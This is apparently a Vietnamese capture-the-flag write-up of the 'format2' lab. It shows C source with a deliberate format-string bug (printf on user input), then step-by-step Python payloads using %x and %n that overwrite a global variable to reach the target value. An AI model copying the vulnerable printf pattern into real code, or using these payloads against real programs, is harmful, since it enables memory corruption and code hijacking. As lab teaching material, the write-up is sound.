


# **format2**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Vulnerability
printf(): hàm printf() không check liệu input có đúng định dạng hay không.\
%n: write

## Exploit
- Tương tự bài format1, tìm địa chỉ target: 0x080496e4
- Xây dựng attack-string:
```
python -c "print ('\xe4\x96\x04\x08' + '%x '*30+ '%n' + 'A'*500)[:500]" | ./format2
```
- Do lần này là biến local buffer chứ không phải argv[1] nên payload được nạp vào stack ở gần đỉnh:

  

- Tương tự như format1, điều chỉnh số lượng %x, thay vào %n:
  ```
  python -c "print ('\xe4\x96\x04\x08' + '%x '*3 + '%n' + 'A'*500)[:500]" | ./format2
  ```
- Kết quả: 
  ```
  target is 26 :(
  ```
- Thêm 38 ký tự rác vào trước %n là ok:
  ```
  python -c "print ('\xe4\x96\x04\x08' + '%x '*3 + 'A'*38 + '%n' + 'A'*500)[:500]" | ./format2
  ```



# References